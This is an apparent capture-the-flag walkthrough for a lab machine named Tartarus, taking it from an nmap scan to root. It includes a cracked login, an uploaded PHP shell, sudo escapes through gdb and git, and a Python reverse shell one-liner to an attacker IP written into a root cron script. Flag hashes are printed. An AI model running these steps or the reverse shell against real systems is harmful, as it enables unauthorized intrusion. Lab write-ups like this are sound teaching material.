 # Tartarus

### #1 User Flag
Starting with an nmap scan
```
nmap -sV <ip>
```
Got the information that anonymous is open in ftp and port 22 and port 80 is open.

Start a dirbuster scan to catch any directorys
```
dirbuster 

/robots.txt
/admin-dir/
```

Awaiting the scans, navigate around in ftp to check if there is any interesting and found a link to a loginpage.
```
/sUp3r-s3cr3t/
```

Used burpsuite to intersept post call, and ran a enum on the password. Found username and password to login
```
enox:P@ssword1234
```

Uploaded a php shell script to /sUp3r-s3cr3t/images/uploads/


Start lissener to get shell
```
nc -lnvp 1234
```

Send shell by navigating to the script http://<ip>/sUp3r-s3cr3t/images/uploads/phpshell.php.
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Navigate to d4rckh to grab user flag abd cat out the first flag.
```
cat /home/d4rckh/user.txt
0f7dbb2243e692e3ad222bc4eff8521f
```

### #2 Root Flag   
Check what files we have access to run as root (or other users) without password.
```
sudo -l
(thirtytwo) NOPASSWD: /var/www/gdb
```

Become thirtytwo exploiting gdb
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```
See what that user can do
```
sudo -l
(d4rckh) NOPASSWD: /usr/bin/git
```

Get normal bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Become d4rckh exploiting git
```
sudo -u d4rckh git -p help config
```

Write the code and save the file
```
!/bin/sh
```

Check if root does anything with the py script in home
```
cat /etc/crontab
```
Root user is running cleanup.py every two minutes.


Make a py script that makes me connect to shell
```
cd /home/d4rckh
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.100.167",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > cleanup.py
```

Start lissener on attacker shell
```
nc -lnvp 1234
```

Wait untill you get root
```
id
uid=0(root) gid=0(root) groups=0(root)
```

Cat out the root flag
```
cat /root/root.txt
7e055812184a5fa5109d5db5c7eda7cd
```

